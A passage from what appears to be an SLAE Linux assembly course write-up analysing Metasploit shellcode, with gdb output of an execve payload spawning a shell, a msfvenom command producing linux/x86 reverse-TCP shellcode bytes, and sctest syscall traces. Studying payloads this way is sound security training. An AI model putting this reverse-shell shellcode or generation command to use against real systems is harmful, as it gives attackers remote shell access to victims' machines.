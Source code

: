 ```bash
   0x0804a067 <+39>:	mov    ecx,esp
=> 0x0804a069 <+41>:	int    0x80
   0x0804a06b <+43>:	add    BYTE PTR [eax],al
End of assembler dump.
(gdb) stepi
process 6223 is executing new program: /bin/dash
Error in re-setting breakpoint 1: No symbol table is loaded.  Use the "file" command.
Error in re-setting breakpoint 1: No symbol table is loaded.  Use the "file" command.
Error in re-setting breakpoint 1: No symbol table is loaded.  Use the "file" command.
$ id
uid=1000(osboxes) gid=1000(osboxes) groups=1000(osboxes),4(adm),24(cdrom),27(sudo),30(dip),46(plugdev),109(lpadmin),124(sambashare)
$ exit
[Inferior 1 (process 6223) exited normally]
(gdb) quit
```   
 
The disassembled code consists of the following components:

* execve syscall -> <code class="language-plaintext highlighter-rouge">0xb</code>
* -c argument -> <code class="language-plaintext highlighter-rouge">0x632d</code>
* <code class="language-plaintext highlighter-rouge">/bin/sh</code> -> <code class="language-plaintext highlighter-rouge">0x68732f & <code class="language-plaintext highlighter-rouge">0x6e69622f</code> 
* call instruction -> <code class="language-plaintext highlighter-rouge">/usr/bin/id</code> 

#### 2nd Shellcode (linux/x86/shell_reverse_tcp)
--------------

A Reverse TCP shell initiates a connection from the target host back to the attacker’s IP address and listening port, executing a shell on the target host’s machine:

```bash
osboxes@osboxes:~/Downloads/SLAE$ msfvenom -p linux/x86/shell_reverse_tcp LHOST=127.0.0.1 LPORT=4444 -f c
No platform was selected, choosing Msf::Module::Platform::Linux from the payload
No Arch selected, selecting Arch: x86 from the payload
No encoder or badchars specified, outputting raw payload
Payload size: 68 bytes
Final size of c file: 311 bytes
unsigned char buf[] = 
"\x31\xdb\xf7\xe3\x53\x43\x53\x6a\x02\x89\xe1\xb0\x66\xcd\x80"
"\x93\x59\xb0\x3f\xcd\x80\x49\x79\xf9\x68\x7f\x00\x00\x01\x68"
"\x02\x00\x11\x5c\x89\xe1\xb0\x66\x50\x51\x53\xb3\x03\x89\xe1"
"\xcd\x80\x52\x68\x6e\x2f\x73\x68\x68\x2f\x2f\x62\x69\x89\xe3"
"\x52\x53\x89\xe1\xb0\x0b\xcd\x80";
```

The Sctest tool, part of the Libemu test suite, is used to inspect the program code and analyze the system calls:

```bash
osboxes@osboxes:~/Downloads/SLAE$ msfvenom -p linux/x86/shell_reverse_tcp LHOST=127.0.0.1 LPORT=4444 R | sctest -vvv -Ss 42
<-- SNIPPET -->
int socket (
     int domain = 2;
     int type = 1;
     int protocol = 0;
) =  14;
int dup2 (
     int oldfd = 14;
     int newfd = 2;
) =  2;
int dup2 (
     int oldfd = 14;
```

[slae-link]: http:/securitytube-training.com/online-courses/securitytube-linux-assembly-expert
[github-code]: https://github.com/h3ll0clar1c3/SLAE/tree/master/Exam/Assignment5
